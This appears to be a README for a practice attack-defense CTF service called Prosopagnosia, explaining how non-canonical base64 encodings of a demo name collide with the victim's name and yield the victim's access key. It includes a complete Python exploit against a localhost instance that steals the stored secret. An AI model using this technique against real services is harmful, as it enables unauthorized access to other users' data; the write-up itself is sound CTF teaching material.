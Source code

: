 # Prosopagnosia

A little srvice to practize in rewriting of AD-services :)

Backend has 3 routes: create rom, get rom, list roms, first of two accept arguments (rom name especially) as base64 encoded string.
Every rom has an access key generated as:
```
std::string demo_service::get_key(const std::string &name) {
    auto name_decoded = base64_decode(name);

    SHA256 sha;
    sha.update(name_decoded.value);
    sha.update(keys_secret);

    auto digest = sha.digest();
    std::string sha256 = SHA256::toString(digest.get());

    return base64_encode(sha256);
}
```

Which means, that the access key is `base64(sha256(b64decode(name) + secret))`. Solution to the dog's disappearance is base64, which can have more than one encoded strings, that leads to one source string. For example:
```
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWM=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
```

That happens when encoding string has length that not divides by 3, 2 bits of encoded string becomes isinsignificant and can be replaced by any value, which leads to different encoded strings, but same source string.

Prosopagnosia service compares for base64 string of name for collision checking, but when its computing the access key it uses decoded string. So, hacking algorithm is:
```
1) get list of demos names
2) find some base64 that represents that names but not equals to first used base64
3) take key that is equal to the key of the victim
4) GET /api/demo
```

The sploit for getting base64 collisions can be:
```python
import requests
import base64
import string

NAME_HEADER = 'X-Svm-Name'
SECRET_HEADER = 'X-Svm-Secret'
AUTHOR_HEADER = 'X-Svm-Author'
KEY_HEADER = 'X-Svm-Key'

base64_alpha = string.ascii_letters + string.digits

victim_name = 'ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP='
victim_name_decoded = base64.b64decode(victim_name).decode()

some_content = b'hello-there'

same_base64 = []

for a in base64_alpha:
    p = victim_name[:-2] + a + victim_name[-1]
    if p == victim_name:
        continue
    if base64.b64decode(p).decode() == victim_name_decoded:
        same_base64.append(p)
        print(p)

if len(same_base64) == 0:
    print('no collision')
    exit()

p = same_base64[0]

print(f'will use {p}')

with requests.post('http://localhost:15345/api/demo', 
                   headers={NAME_HEADER: p, SECRET_HEADER: 'TWu=', AUTHOR_HEADER: 'TWu='},
                   files={p: some_content}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on post')

    key = r.headers.get(KEY_HEADER)

    print(f'The key for {victim_name} is {key}')

with requests.get('http://localhost:15345/api/demo',
                  headers={NAME_HEADER: victim_name, KEY_HEADER: key}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on get')

    print(r.json()['secret'])
```

